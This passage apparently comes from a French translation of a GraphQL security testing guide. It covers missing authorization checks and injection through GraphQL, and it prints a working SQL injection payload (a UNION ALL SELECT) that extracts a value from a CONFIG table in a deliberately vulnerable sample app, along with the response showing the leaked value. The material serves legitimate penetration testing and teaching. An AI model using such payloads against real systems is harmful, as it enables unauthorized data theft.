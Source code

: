 
Tous les chiens de la liste appartiennent à Benoit, et non au propriétaire du jeton d'authentification. Il est possible d'effectuer ce type d'action lorsque l'application de l'autorisation appropriée n'est pas mise en œuvre.

### Injection

GraphQL est l'implémentation de la couche API d'une application, et en tant que telle, elle transmet généralement les requêtes à une API back-end ou directement à la base de données. Cela vous permet d'utiliser toute vulnérabilité sous-jacente telle que l'injection SQL, l'injection de commandes, les scripts intersites, etc. L'utilisation de GraphQL ne fait que modifier le point d'entrée de la charge utile malveillante.

Vous pouvez vous référer à d'autres scénarios dans le guide de test OWASP pour avoir des idées.

GraphQL a également des scalaires, qui sont généralement utilisés pour les types de données personnalisés qui n'ont pas de types de données natifs, tels que DateTime. Ces types de données n'ont pas de validation prête à l'emploi, ce qui en fait de bons candidats pour les tests.

#### Injection SQL

L'exemple d'application est vulnérable par conception dans la requête `dogs(namePrefix: String, limit: Int = 500): [Dog!]` car le paramètre `namePrefix` est concaténé dans la requête SQL. La concaténation des entrées utilisateur est une mauvaise pratique courante des applications qui peuvent les exposer à l'injection SQL.

La requête suivante extrait les informations de la table `CONFIG` de la base de données :

```graphql
query sqli {
  dogs(namePrefix: "ab%' UNION ALL SELECT 50 AS ID, C.CFGVALUE AS NAME, NULL AS VETERINARY_ID FROM CONFIG C LIMIT ? -- ", limit: 1000) {
    id
    name
  }
}
```

La réponse à cette requête est :

```json
{
  "data": {
    "dogs": [
      {
        "id": 1,
        "name": "Abi"
      },
      {
        "id": 2,
        "name": "Abime"
      },
      {
        "id": 3,
        "name": "..."
      },
      {
        "id": 50,
        "name": "$Nf!S?(.}DtV2~:Txw6:?;D!M+Z34^"
      }
    ]
  }
}
```
